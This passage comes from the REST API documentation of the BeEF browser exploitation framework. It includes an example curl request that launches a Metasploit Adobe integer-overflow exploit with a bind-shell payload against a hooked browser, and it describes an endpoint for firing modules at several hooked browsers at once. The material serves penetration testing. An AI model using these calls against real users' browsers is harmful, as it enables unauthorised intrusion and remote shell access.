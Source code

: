 
### Example

In the following example we send the `Adobe FlateDecode Stream Predictor 02 Integer Overflow`. Metasploit modules will be listed together with BeEF modules, marked with the `metasploit` category.

**NOTE:** 
* The request header must contain `Content-Type: application/json; charset=UTF-8` and the request body must be valid JSON.

#### Request

```bash
curl -H "Content-Type: application/json; charset=UTF-8" -d '{"SRVPORT":"3992", "URIPATH":"77345345345dg", "PAYLOAD":"generic/shell_bind_tcp"}' -X POST http://beefserver.com:3000/api/modules/nBK3BGBILYD0bNMC1IH299oDbZXNNXKfwMEoDwajmItAHhhhe8LLnEPvO3wFjg1rO4PzXsBbUAK1V0gk/236?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`
```

#### Response

**NOTE:** 
* You cannot query BeEF or Metasploit with [Return Information About A Command Module Previously Executed](#return-information-about-the-specific-command-module-previously-executed) call to historically check the result of an executed Metasploit module.
* This is why `"command_id":"not_available"` appears in the response of this request.

```
{
    "success": "true",
    "command_id": "not_available"
}
```

## Send a Module to Multiple Hooked Browsers

### Handler
* **Endpoint** 
  * `POST /api/modules/multi_browser?token={token}`
* **Description**
  * Fire a BeEF command module to **multiple** hooked browsers. Returns the command IDs of the launched module, or 0 if there were errors.
* **Request Components**
  * N/A
* **Query Parameters**
  * `{token}` - your authentication token (see [Authentication](#authentication))
* **Request Content**
  * **Headers**
    * Content-Type: `application/json; charset=UTF-8`
  * **Body**
    * `mod_id` - ID of the BeEF module. See [List Command Modules](#list-command-modules).
    * `mod_params` - parameters needed for the module
    * `hb_ids` - session ID of the hooked browser. This ID is the `session_key` value returned in the response to the [`/api/](#hooked-browsers) request.
